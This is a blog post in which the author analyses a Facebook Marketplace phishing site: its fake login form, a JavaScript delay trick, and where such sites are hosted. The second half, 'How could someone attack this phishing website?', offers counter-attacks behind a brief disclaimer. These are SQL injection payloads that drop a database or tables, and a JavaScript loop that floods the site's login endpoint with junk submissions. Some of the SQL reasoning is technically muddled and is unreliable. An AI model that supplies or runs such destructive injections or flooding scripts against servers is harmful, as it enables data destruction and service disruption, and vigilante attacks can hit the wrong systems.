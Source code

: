 <!--
{
  "title": "FB Marketplace Phishing Website Analysis",
  "time": "2025-04-13T01:21:00.000Z",
  "description": "My Experience with a Facebook Marketplace Phishing Scam Recently, I received a message from a random person on Facebook Marketplace who wanted to trade an item. He provided a link to what he claimed was his listing, but upon closer inspection, I realized it wasn’t a real Facebook Marketplace page...."
}
-->

# My Experience with a Facebook Marketplace Phishing Scam

![facebook-message-image.webp](/images/uploads/facebook-message-image.webp)

Recently, I received a message from a random person on Facebook Marketplace who wanted to trade an item. He provided a link to what he claimed was his listing, but upon closer inspection, I realized it wasn’t a real Facebook Marketplace page. Instead, it was a phishing website designed to look like Facebook, created to steal people’s email addresses, phone numbers, and passwords.


## Understanding Phishing Attacks

Online scams come in many forms, and phishing is one of the most common. Cybercriminals often can't attack large services directly due to strong security measures. Instead, they target individuals through emails, messages, or social media platforms, tricking them into revealing their credentials. These stolen credentials might not only be used for Facebook but also for financial accounts and other services.

Since I encountered this phishing website, I decided to analyze it and learn from it.

---
## Phishing Website Analysis
![phishingwebsiteimage.webp](/images/uploads/phishingwebsiteimage.webp)

### The phishing website’s login form looked like this:
![phishingwebsiteloginform.webp](/images/uploads/phishingwebsiteloginform.webp)

From this form, I could determine that the website's backend is built with PHP, as indicated by the action="do.php" attribute. Additionally, the website doesn’t validate whether the input is an email or a phone number, meaning it accepts both formats.

### The phishing website’s Javascript code:

![phishingwebistescript.webp](/images/uploads/phishingwebistescript.webp)

This script reveals an interesting trick: it displays a loading overlay for five seconds before submitting the form. This delay is likely an attempt to make the login process feel more legitimate to victims.

Additionally, I noticed that some comments in the code were written in Romanian, which suggests that the person who created the phishing site might speak Romanian. However, this does not confirm their nationality, as other Eastern Europeans (such as Russians, Ukrainians, or Poles) may also use Romanian. And this website can be done by a geek job as well. There are people who post a job to copy a website from Upwork.

![upworkwebsitecopyimage.webp](/images/uploads/upworkwebsitecopyimage.webp)

### Where do phishers host their websites?

Most phishers avoid cloud platforms like AWS or Google Cloud, as those services charge based on usage. If someone floods their phishing website with traffic, it could lead to high hosting costs and even credit card cancellations. Instead, they often use cheap shared hosting services, which are easier to shut down when reported.

---
## How could someone attack this phishing website?

> Disclaimer: Attacking someone’s server can be illegal depending on your country’s laws. This content is for educational purposes only—do not use it to harm others.

### 1. SQL injection (Potentially deleting their database)
Older versions of MySQL were vulnerable to SQL injection attacks that could delete databases. Here’s an example of an attack command that could attempt to remove their database:

```
'; DROP DATABASE information_schema; --
```

#### A more advanced version dynamically identifies and deletes tables:
```
'; SET @t = (SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1); SET @query = CONCAT('DROP TABLE ', @t); PREPARE stmt FROM @query; EXECUTE stmt; --
```

### 2. Flooding the database with junk data (DDoS-like attack)

A phishing website’s database may not be well-optimized, and flooding it with thousands of fake logins could slow it down or crash it. Since the phishing website redirects after submission, an attacker would need a script that sends junk data without redirection.

Here’s a javascript that could be used:

```
function sendFakeDataRepeatedly(times, delay) {
    let i = 0;
    let interval = setInterval(() => {
        if (i >= times) {
            clearInterval(interval);
            console.log("Finished sending fake data.");
            return;
        }

        let formData = new FormData();
        formData.append("email", `stop.phishing.${i}@please.com`);
        formData.append("password", `stop.phishing.please`);

        fetch("do.php", {  // Change this if the endpoint is different
            method: "POST",
            body: formData,
        })
        .then(response => console.log(`Sent fake data ${i + 1}/${times}`))
        .catch(error => console.error("Error:", error));

        i++;
    }, delay);
}

// Run: Sends 1000 fake entries every 0.5 seconds
sendFakeDataRepeatedly(1000, 500);
```
This script continuously submits fake login credentials to flood the database. If the phishing site is hosted on a cloud-based pay-per-use platform, the increased traffic could drive up their costs significantly.

---
## What happened to the phishing website?

Eventually, the phishing website was shut down by the hosting provider. The phishing website was hosted on a UK-based hosting service, which suspended it after detecting abuse.

---
## Conclusion

Phishing remains a major cybersecurity threat, and attackers constantly find new ways to trick people into revealing their credentials. By analyzing phishing websites, we can better understand how they work and how to protect ourselves and others.

If you ever come across a suspicious website, report it to the relevant authorities and avoid engaging with it. Stay safe online!

